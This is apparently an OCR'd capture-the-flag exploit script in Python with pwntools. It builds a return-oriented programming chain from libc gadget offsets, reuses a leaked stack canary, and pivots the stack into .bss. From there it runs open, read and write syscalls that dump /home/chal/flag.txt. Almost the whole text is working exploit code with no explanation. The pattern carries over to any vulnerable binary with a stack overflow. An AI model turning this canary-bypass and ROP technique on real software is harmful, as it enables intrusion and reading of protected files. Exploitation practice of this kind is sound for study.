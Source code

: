 ```python
pop_rax_ret = libc_base_addr + 0x0000000000045eb0# : pop rax ; ret
pop_rdi_ret = libc_base_addr + 0x000000000002a3e5# : pop rdi ; ret
pop_rsi_ret = libc_base_addr + 0x000000000002be51# : pop rsi ; ret
pop_rdx_ret = libc_base_addr + 0x00000000000796a2# : pop rdx ; ret
pop_rdx_rbx_ret = libc_base_addr + 0x0000000000090529# : pop rdx ; pop rbx ; ret
syscall_ret = libc_base_addr + 0x0000000000091396# : syscall ; ret

bss_addr = code_segment_base + 0x3000 + 0x200
bss_addr_flag = bss_addr + 0x400
bss_addr_buf = bss_addr_flag + 0x120

file_addr = b'/home/chal/flag.txt'.ljust(0x38, b'\x00')

trash_payload = flat(
    canary,
    bss_addr,
    main_fn_addr + 291
)

extend_payload = flat(
    canary,
    bss_addr_flag,
    pop_rax_ret, 400,
    main_fn_addr + 298,
)

open_payload = flat(
    # Open file
    # fd = open("/home/chal/flag.txt", 0);
    pop_rax_ret, 2,
    pop_rdi_ret, bss_addr_flag - 0x40,
    pop_rdx_rbx_ret, 0, 0,
    pop_rsi_ret, 0,
    syscall_ret
)

read_payload = flat(
    # Read the file
    # read(fd, buf, 0x30);
    pop_rax_ret, 0,
    pop_rdi_ret, 3, 
    pop_rsi_ret, bss_addr_buf,
    pop_rdx_rbx_ret, 0x70, 0,
    syscall_ret
)

write_payload = flat(
    # Write the file
    # write(1, buf, 0x30);
    pop_rax_ret, 1,
    pop_rdi_ret, 1,
    # pop_rsi_ret, bss_addr_buf,
    # pop_rdx_ret, 0x70,
    syscall_ret
)

# Extend rbp space
r.send(b'a' * 0x38 + trash_payload)
r.send(b'a' * 0x38 + extend_payload)

# Write Exploit ROP gadget
raw_input()
r.send(file_addr + p64(canary) + p64(0) + open_payload + read_payload + write_payload)
```